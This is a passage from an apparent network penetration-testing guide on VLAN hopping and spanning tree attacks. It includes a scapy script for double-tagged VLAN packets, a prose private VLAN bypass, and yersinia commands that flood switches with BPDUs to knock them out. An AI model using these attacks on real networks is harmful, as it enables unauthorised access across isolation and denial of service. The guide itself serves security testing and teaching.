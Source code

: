 ![](<../../.gitbook/assets/image (635).png>)

To perform this attack you could use scapy: `pip install scapy`

```python
from scapy.all import *
# Double tagging with ICMP packet (the response from the victim isn't double tagged so it will never reach the attacker)
packet = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.1.10')/ICMP()
sendp(packet)
```

#### Layer 3 Private VLAN Bypass

In guest wireless networks and other environments, private VLAN (also known as _port isolation_) settings are used to **prevent peers from interacting** (i.e., clients **connect to a wireless access point but cannot address one another**). Depending on network ACLs (or lack thereof), it might be possible to send IP packets up to a router, which are then forwarded back to a neighbouring peer.

This attack will send a **specially crafted packet to the IP of a client but with the MAC of the router**. Then, the **router will redirect the packet to the client**. As in _Double Tagging Attacks_ you can exploit this vulnerability by controlling a host accessible by the victim.

### STP Attacks

**If you cannot capture BPDU frames on your interfaces, it is unlikely that you will succeed in an STP attack.**

#### **STP BPDU DoS**

Sending a lot of BPDUs TCP (Topology Change Notification) or Conf (the BPDUs that are sent when the topology is created) the switches are overloaded and stop working correctly.

```bash
yersinia stp -attack 2
yersinia stp -attack 3
#Use -M to disable MAC spoofing
```
